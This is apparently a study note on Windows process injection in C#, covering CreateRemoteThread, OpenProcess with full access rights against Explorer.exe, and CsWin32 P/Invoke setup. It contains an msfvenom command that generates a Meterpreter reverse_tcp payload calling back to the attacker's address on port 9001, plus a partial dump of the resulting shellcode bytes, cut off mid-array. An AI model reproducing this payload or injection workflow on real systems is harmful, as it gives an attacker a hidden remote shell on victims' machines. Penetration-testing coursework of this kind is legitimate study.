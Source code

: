 ### CreateRemoteThread

```c
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);
```
- Similarly, since _CreateThread_ does not support the creation of remote process threads, we must rely on the _CreateRemoteThread_ API instead.


# Process Injection in C\#

Note: Installed https://github.com/microsoft/CsWin32 into Win10 Visual Studio and System.Memory nuget packages

Errata/Update: 
- `dwDesiredAccess` has a 32 bit un-signed interger value and it establishes the access rights, there are hex values we can use for the access , the acess which we can use for all rights on a process is `PROCESS_ALL_ACCESS` which can be represented in hex `0x001FFFFF` 
- offsec guide uses `0x001F0FFF` which is for XP/2k3
- PROCCESS_ALL_ACCESS hex values (https://gist.githubusercontent.com/Rhomboid/0cf96d7c82991af44fda/raw/46b93265561362eb9d631b90a7731dc985ee378d/process_access_rights.txt)
- Note: PID 4804 below is for Explorer.exe will change each time Windows is run and the hex value for dwDesiredAccess is for win xp or 2k3
```csharp
IntPtr hProcess = OpenProcess(0x001F0FFF, false, 4804);
```
- For P/Invoke purposes, you should use `IntPtr.Zero` in place of `NULL`. Note that this is not equivalent to the C# `null`
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$(hostname -I | cut -d' ' -f1) LPORT=9001 EXITFUNC=thread -f csharp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 511 bytes
Final size of csharp file: 2628 bytes
byte[] buf = new byte[511] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2,
0x65,0x48,0x8b,0x52,0x60,0x51,0x48,0x8b,0x52,0x18,0x48,0x8b,
0x52,0x20,0x56,0x48,0x0f,0xb7,0x4a,0x4a,0x48,0x8b,0x72,0x50,
0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,
0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x48,
0x8b,0x52,0x20,0x41,0x51,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x66,
0x81,0x78,0x18,0x0b,0x02,0x0f,0x85,0x72,0x00,0x00,0x00,0x8b,
0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,
0xe3,0x56,0x4d,0x31,0xc9,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,
0x48,0x01,0xd6,0x48,0x31,0xc0,0x41,0xc1,0xc9,0x0d,0xac,0x41,
0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,
0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,
0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,
0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
0x4b,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,
0x32,0x00,0x00,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,
```